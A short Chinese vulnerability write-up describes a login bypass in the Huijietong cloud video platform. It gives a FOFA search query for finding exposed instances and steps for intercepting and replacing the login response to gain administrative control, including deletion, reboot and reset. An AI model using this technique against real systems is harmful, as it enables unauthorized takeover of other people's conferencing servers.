





## 会捷通云视讯平台存在登录绕过漏洞

## 漏洞描述

**会捷通云视讯平台存在登录绕过漏洞，可以通过修改返回包进行登录**

## 漏洞影响

> 会捷通云视讯平台

## FOFA

> body="/him/api/rest/v1.0/node/role

## 漏洞复现

**替换登录返回包内容即可绕过登录验证。**

```
HTTP/1.1 200 
Date: Thu, 25 Mar 2021 13:53:45 GMT
Accept-Ranges: bytes
Server: Restlet-Framework/2.1.1
Vary: Accept-Charset, Accept-Encoding, Accept-Language, Accept
Content-Type: application/json;charset=UTF-8
Connection: close
Content-Length: 28
 
{"token":null,"result":null}
```

**1.**   **拦截数据包**



**输入任意用户/密码，如admin/admin**

 

**2.点击登录，拦截返回包，替换为如下内容**



**正常返回包：提示密码错误：**



**替换：**



**放开拦截，可任意操作，删除，重启、升级、重置等等**

